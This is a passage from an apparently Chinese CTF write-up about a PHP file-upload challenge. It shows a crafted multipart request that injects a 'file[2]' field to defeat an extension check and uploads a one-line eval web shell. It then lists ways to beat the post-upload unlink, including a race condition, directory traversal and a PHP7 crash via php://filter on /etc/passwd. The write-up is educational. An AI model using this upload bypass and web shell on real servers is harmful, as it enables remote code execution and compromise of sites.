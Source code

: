 ```
        unlink($new_name);
    `}`
    else`{`
        highlight_file(__FILE__);
    `}`
?&gt;

&lt;form action="" method="post" enctype="multipart/form-data"&gt;
    &lt;input type="file" name="file" id="file" /&gt;
    &lt;input type="submit" name="submit" value="Submit" /&gt;
&lt;/form&gt;
```

可以看到前半段的代码和前面一道是很相似的，都用了 end 函数来处理文件的后缀名。但是这里没有进行图片后缀的判断，而是进行下面的判断：

```
if($ext==$filename[count($filename) - 1])`{`
            die("emmmm...");
        `}`
```

而根据 $filename 的来源

```
$filename = !empty($_POST['file']) ? $_POST['file'] : $_FILES['file']['name'];
$ext = end($filename);
```

我们也可以类似的构造 $_POST[‘file’] ，也就是自己插入一个字段 file ：

```
------WebKitFormBoundarywrXtm4qsIjhjlklR
Content-Disposition: form-data; name="file[2]"

2.php
------WebKitFormBoundarywrXtm4qsIjhjlklR
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/x-php

GIF89a&lt;?=eval($_POST['1']);
```

若我们只传入一个 file[2] = ‘2.php’， 即 $filename[2] = ‘2.php’， 那么 $ext = ‘2.php’， $filename[count($filename) – 1] = $filename[0]

因为我们只构造 filename[2]，所以 $filename[0] 为空，两者不相等所以就绕过了上面后缀名的判断。

#### <a name="unlink%20%E7%BB%95%E8%BF%87"></a>unlink 绕过

题目后面的代码逻辑是将前面的文件上传到服务器上，之后再用 post 方法接受一个参数作为文件，之后再包含这个文件。

看到上传文后再 unlink，第一时间想到的肯定是条件竞争的方法。但是对于这道题目，还有很多种方法。

1./. 符号绕过

2.目录穿越（把文件上传到想上传的地方，然后再包含相应的文件即可）

3.php7文件包含漏洞，PHP7中如果include(‘php://filter/string.strip_tags/resource=/etc/passwd’)，就会引起PHP程序直接崩溃，因而就不会进行到下面的unlink。然后就可以对上传的文件进行爆破。
